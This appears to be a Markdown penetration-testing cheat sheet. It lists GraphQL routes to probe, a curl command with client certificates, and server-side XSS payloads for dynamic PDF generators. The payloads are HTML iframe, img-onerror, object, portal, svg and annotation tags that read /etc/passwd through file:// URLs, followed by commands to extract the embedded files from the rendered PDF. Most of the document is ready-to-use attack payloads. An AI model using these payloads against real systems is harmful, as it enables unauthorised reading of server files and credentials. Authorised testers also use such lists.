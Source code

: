 # Interesting routes
### Graphql

```
/graphql
/graphiql
/graphql.php
/graphql/console
```

# Certificate
```
curl <url> --key KEY.key --cert CERT.cert
```

# Server Side XSS

### Read local file (Dynamic PDF)

#### (Basic)

```
<iframe src=file:///etc/passwd></iframe>
<img src="x" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///etc/passwd">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id="portal">
<svg-dummy></svg-dummy><iframe src='file:///etc/passwd' width='100%' height='1000px'></iframe><svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>
```

#### (Advanced)

```
<annotation file="/etc/passwd" content="/etc/passwd" icon="graph" title="Attached File: /etc/passwd" pos-x="195" />
```

You can extract annotation files with this [script](https://github.com/sawyerf/HackSheet/scripts/get-pdf-annot.py):
```
pip install pymupdf
python script/get-pdf-annot.py -f "<HTTP(S)_URL> OR <PDF_PATH>"
```